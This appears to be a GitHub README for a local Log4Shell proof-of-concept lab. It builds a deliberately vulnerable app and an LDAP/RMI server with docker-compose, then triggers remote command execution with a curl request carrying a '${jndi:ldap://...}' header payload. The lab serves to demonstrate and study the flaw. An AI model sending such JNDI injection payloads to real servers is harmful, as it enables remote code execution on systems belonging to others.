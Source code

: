 log4shell POC

# Steps

1. Build the images
```bash
docker-compose build
```

2. config the command in `.env`, default is `touch /tmp/pwned`

3. Compose!
```bash
docker-compose up -d
```

4. The vuluerable app is up and bind 8080 to the host machine.
To get the ldap payload, please see the log of the container `rmi-server`.

![get_payload](images/get_payload.png)

and make a request, e.g.

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://rmi-server:1389/7mqfuh}'
```

5. Check the result, go to the console of the app.

![result](images/result.png)
